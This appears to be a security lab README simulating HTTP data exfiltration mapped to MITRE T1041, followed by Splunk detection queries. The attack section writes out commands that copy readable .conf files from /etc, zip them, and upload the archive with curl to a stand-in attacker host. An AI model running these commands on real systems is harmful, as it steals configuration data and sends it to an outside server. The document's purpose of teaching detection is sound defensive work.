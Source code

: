 – Data Exfiltration via HTTP (MITRE ATT&CK T1041)

## 📌 Objective
Simulate a data exfiltration technique using HTTP protocol to understand how attackers transfer sensitive data from compromised systems to external destinations. Detect and analyze this activity using Splunk.

---

## 💡 MITRE Technique: T1041 - Exfiltration Over Command and Control Channel

Attackers often exfiltrate data using existing command and control (C2) channels, including HTTP or HTTPS. This technique helps avoid detection by blending in with normal web traffic.

---

## 🛠️ Lab Setup

| Component         | Details                              |
|------------------|--------------------------------------|
| Attacker Machine | Kali Linux (HTTP Server on Port 8000)|
| Victim Machine   | Ubuntu (Target for exfiltration)     |
| Monitoring Tool  | Splunk (Log Source: Syslog)          |

---

## ⚙️ Attack Simulation

1. **Target Data Collection**  
   - Collected all readable `.conf` files from `/etc`:
     ```
     find /etc -type f -name "*.conf" -readable -exec cp {} /tmp/exfil/ \;
     ```

2. **Compression (Data Staging)**  
   - Archive the data:
     ```
     zip -r data_loot.zip /tmp/exfil
     ```

3. **Exfiltration using `curl`**
   - Send the zip file to the attacker's HTTP server:
     ```
     curl -X POST -F "file=@data_loot.zip" http://<attacker-ip>:8000/upload
     ```

---

## 🔍 Detection in Splunk

### 1. Detect `curl` activity from logs:
index=* curl



### 2. Detect any external IP access:
index=* source="/var/log/syslog" curl OR "<attacker-ip>"


### 3. Look for `zip` and data staging:
index=* "zip -r" OR "/tmp/exfil"


---

## ✅ Key Takeaways

- Data exfiltration can be hidden in plain sight using common tools like `curl`.
- Syslog monitoring and keyword-based detection can help surface suspicious behaviors.
- MITRE mappings like T1041 help contextualize threats in a real-world framework.
